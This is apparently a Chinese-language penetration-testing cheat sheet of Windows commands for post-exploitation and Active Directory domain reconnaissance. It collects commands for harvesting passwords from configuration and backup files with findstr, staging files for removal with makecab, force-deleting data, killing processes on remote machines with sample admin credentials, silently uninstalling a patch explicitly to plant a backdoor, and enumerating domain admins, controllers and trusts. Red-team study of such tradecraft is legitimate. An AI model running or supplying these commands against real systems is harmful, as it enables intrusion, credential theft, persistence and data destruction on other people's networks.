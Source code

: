 ```
# dir /a /s /b d:\"*user*"
```

批量压缩指定文件,注意,list.txt里存放的是所有要打包文件的绝对路径:
```
# makecab /f list.txt /d compressiontype=lzx /d compressionmemory=21 /d maxdisksize=1024000000 /d diskdirectorytemplate=dd* /d cabinetnametemplate=dd*.cab
```

在指定目录下搜集各种账号密码
```
# findstr /si pass *.inc *.config *.ini *.txt *.asp *.aspx *.php *.jsp *.xml *.cgi *.bak 
# findstr /si userpwd *.inc *.config *.ini *.txt *.asp *.aspx *.php *.jsp *.xml *.cgi *.bak 
# findstr /si pwd *.inc *.config *.ini *.txt *.asp *.aspx *.php *.jsp *.xml *.cgi *.bak 
# findstr /si login *.inc *.config *.ini *.txt *.asp *.aspx *.php *.jsp *.xml *.cgi *.bak 
# findstr /si user *.inc *.config *.ini *.txt *.asp *.aspx *.php *.jsp *.xml *.cgi *.bak 
```

文件操作:
```
# type ad\admin_pass.bak		    查看某个文件内容
# del d:\ad\*.* /a /s /q /f 		强制删除指定路径下的所有文件
# tree /F /A D:\ >> file_list.txt	导出指定路径下的文件目录结构
# move directory newDirectoryPath	移动文件夹
```

查看当前机器的进程信息:
```
# tasklist /svc		显示当前机器所有的进程所对应的服务[只限于当前用户又权限看到的进程]
# tasklist /m		显示本地所有进程所调用的dll[同样只限于当前用户又权限看到的进程]
# tasklist /S 192.168.3.122 /v /U administrator /P "admin!@#123"		 查看远程指定机器的进程列表
# tasklist /S 192.168.3.122 /v /U KLIONSEC\administrator /P "admin!@#123"	 域内可以直接用机器名来代替

# taskkill /im calc.exe	用指定进程名的方式结束指定进程
# taskkill /S 192.168.3.122 /pid 3440 /U KLIONSEC\administrator /P "admin!@#123" 结束远程机器上的指定进程

# wusa /uninstall /KB:2999226 /quiet /norestart 	不重启卸载指定系统补丁,方便留后门,前提是权限要够
# driverquery		查看当前机器安装的驱动列表
# restart /r /t 0	立即重启当前机器
```
### \#0x01 域内net及dsquery套件使用

域内机器查询所有域控IP
```
nslookup -type=SRV _ldap._tcp.dc._msdcs.domain_name
```

利用常规net套件搜集域内信息
```
# systeminfo 		查看是否在域中及所在域的名称
# net user /domain 		查看当前域中的所有用户名,根据用户名总数大概判断域的规模
# net user epoadmin /domain 	查看指定用户在当前域中的详细属性信息
# net view 			正常情况下可以用该命令查看当前域中在线的机器有哪些,但这样看着确实不太直观,稍微用批处理搞一下把机器名对应的ip也显示出来,岂不更畅快
# net accounts /domain 		查看当前域的域内账户密码设置策略
# net config workstation    	看看当前的登录域
# net view /domain       	查看所有的域名称，查找域控，是否在域内
# net view /domain:PROGRAM 	查看指定域中在线的计算机列表
# net time /domain		查看主域位置,一般都会把主域作为时间服务器
# net group /domain		查看当前域中的所有组名
# net group "domain admins" /domain 	 看看当前域中的域管都有谁
# net group "domain computers" /domain 	 看看当前域中的所有的计算机名,只要登录过该域计算机名都会被保存下来,并非当前在线机器
# net group "domain controllers" /domain 看看域控是哪几个
# nltest /domain_trusts 		 查看域内信任关系
```
